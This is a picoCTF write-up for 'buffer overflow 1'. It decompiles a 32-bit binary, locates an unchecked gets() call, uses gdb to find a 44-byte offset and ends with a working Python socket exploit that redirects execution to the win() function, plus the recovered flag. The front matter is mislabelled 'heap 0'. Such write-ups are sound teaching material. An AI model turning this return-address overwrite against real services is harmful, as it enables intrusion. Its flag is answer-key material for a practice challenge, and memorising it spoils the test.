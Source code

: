 ```yaml
---
title: PicoCTF - heap 0
published: 2025-08-07
description: PicoCTF Writeup for heap 0 Challenge
tags: [binary exploitation, medium, picoCTF 2022]
category: CTF Writeup
draft: false
lang: en
---
```


# PicoCTF Writeup - buffer overflow 1

I64 File (IDA Database): [/i64/202510261106.i64](/i64/202510261106.i64)

PicoCTF Challenge: 
[https://play.picoctf.org/practice/challenge/258?category=6&page=3](https://play.picoctf.org/practice/challenge/258?category=6&page=3)

> ## buffer overflow 1
> Author: Sanjay C / Palash Oswal
> 
> ### Description
> Control the return address<br>
> Now we're cooking! You can overflow the buffer and return to the flag function in the program.<br>
> You can view source here. And connect with it using nc saturn.picoctf.net 53903<br>
> ### Hints
> 1st - Make sure you consider big Endian vs small Endian.<br>
> 2nd - Changing the address of the return pointer can call different functions.<br>
> ### Resources:
> Source Code: [/vuln.c](https://artifacts.picoctf.net/c/185/vuln.c)<br>
> Binary: [/vuln](https://artifacts.picoctf.net/c/185/vuln)<br>

```bash title="Server Information"
$ nc saturn.picoctf.net 53903
```

## Decompile
```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
    __gid_t v4; // [esp+0h] [ebp-Ch]

    setvbuf(stdout, 0, 2, 0);
    v4 = getegid();
    setresgid(v4, v4, v4);
    puts("Please enter your string: ");
    vuln();
    return 0;
}

int vuln()
{
    int return_address; // eax
    char s[36]; // [esp+0h] [ebp-28h] BYREF
    int savedregs; // [esp+28h] [ebp+0h] BYREF

    gets(s);
    return_address = get_return_address((int)&savedregs);
    return printf("Okay, time to return... Fingers Crossed... Jumping to 0x%x\n", return_address);
}

int __usercall get_return_address@<eax>(int a1@<ebp>)
{
    return *(_DWORD *)(a1 + 4);
}

int win()
{
    char s[64]; // [esp+Ch] [ebp-4Ch] BYREF
    FILE *stream; // [esp+4Ch] [ebp-Ch]

    stream = fopen("flag.txt", "r");
    if ( !stream )
    {
        printf("%s %s", "Please create 'flag.txt' in this directory with your", "own debugging flag.\n");
        exit(0);
    }
    fgets(s, 64, stream);
    return printf(s);
}
```

The code above is the decompiled source code from a binary. Let me summarize it more concisely.

```c
int main(int argc, const char **argv, const char **envp)
{
    gid_t effective_group_id;

    setvbuf(stdout, NULL, _IONBF, 0);
    effective_group_id = getegid();
    setresgid(effective_group_id, effective_group_id, effective_group_id);
    puts("Please enter your string: ");
    vuln();
    return 0;
}

int vuln()
{
    int return_address;
    char buffer[36];
    int saved_return_address;

    gets(buffer);
    return_address = get_return_address((int)&saved_return_address);
    return printf("Okay, time to return... Fingers Crossed... Jumping to 0x%x\n", return_address);
}

uint32_t get_return_address_from_ebp(uint32_t base_pointer)
{
    return *(uint32_t*)(base_pointer + 4);
}

int win()
{
    char flag[64];
    FILE *stream;

    stream = fopen("flag.txt", "r");
    if ( !stream )
    {
        printf("%s %s", "Please create 'flag.txt' in this directory with your", "own debugging flag.\n");
        exit(0);
    }
    fgets(flag, 64, stream);
    return printf(s);
}
```

## Analysis
This program receives a 36-byte string as input into a buffer in the `vuln` function and then returns to the stored `saved_return_address`.
However, the `saved_return_address` cannot normally be modified directly by the user.
Inside the function, though, the vulnerable function `gets` is used to store user input into the buffer.
This function is vulnerable to a **buffer overflow (BOF)**.
As a result, it is possible to overwrite the `saved_return_address` and manipulate the return address to jump to the `win` function.
When the `win` function is reached, the code that provides the flag is already stored there.

```bash
therustymate-picoctf@webshell:~$ r2 ./vuln_2
[0x080490e0]> aaa
...
[0x080490e0]> afl
...
0x080491f6    3    139 sym.win
...
```

```bash
therustymate-picoctf@webshell:~$ file ./vuln_2
./vuln_2: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, BuildID[sha1]=685b06b911b19065f27c2d369c18ed09fbadb543, for GNU/Linux 3.2.0, not stripped
```

In this program the `win` function is located at `0x080491f6`.
Therefore, to execute it in memory you can pack that address using `struct.pack`.
Because the program uses the x86 (32-bit) architecture, you should use `'<I'` in `struct.pack` to pack the address.

Now we need to find the offset that will overwrite the `saved_return_address`. I'll find the offset using `gdb`.

```python
>>> import string;string.printable
'0123456789abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ!"#$%&\'()*+,-./:;<=>?@[\\]^_`{|}~ \t\n\r\x0b\x0c'
```

```bash
(gdb) run
The program being debugged has been started already.
Start it from the beginning? (y or n) y
Starting program: /home/therustymate-picoctf/vuln_2 
warning: Error disabling address space randomization: Operation not permitted
[Thread debugging using libthread_db enabled]
Using host libthread_db library "/lib/x86_64-linux-gnu/libthread_db.so.1".
Please enter your string: 
0123456789abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ
Okay, time to return... Fingers Crossed... Jumping to 0x4c4b4a49

Program received signal SIGSEGV, Segmentation fault.
0x4c4b4a49 in ?? ()
(gdb) info registers eip
eip            0x4c4b4a49          0x4c4b4a49
```

gdb shows the `EIP` register is currently pointing at `0x4c4b4a49`. Converting that back into a string yields the following:

```python
>>> chr(0x4c)+chr(0x4b)+chr(0x4a)+chr(0x49)
'LKJI'
```

Since the string "LKJI" appears, it indicates that the return address starts from the character **'I'** and spans 4 bytes. The method to calculate the offset is as follows:

```python
>>> len('0123456789abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ'.split('IJKL')[0])
44
```

Therefore, after 44 bytes of characters, we can hijack the return address by using `struct.pack("<I", 0x080491f6)`.

## Exploit Script
```python
from socket import *
import struct
import sys
import time

def craftPayload():
    padding = b"A" * 44
    return_address = struct.pack("<I", 0x080491f6)
    payload = padding + return_address
    return payload

def exploit(target: str, port: int):
    payload = craftPayload()
    s = socket(AF_INET, SOCK_STREAM)
    s.connect((str(target), int(port)))
    time.sleep(1)
    s.recv(65535)
    s.send(payload + b"\n")
    s.recv(65535)
    print(s.recv(65535).decode())
    s.close()

if __name__ == "__main__":
    args = sys.argv
    target = str(args[1])
    port = int(args[2])
    exploit(target, port)
```

## Result
```bash
therustymate-picoctf@webshell:~$ python3 solve.py saturn.picoctf.net 53903
picoCTF{addr3ss3s_ar3_3asy_6462ca2d}
```

Therefore, the flag is: `picoCTF{addr3ss3s_ar3_3asy_6462ca2d}`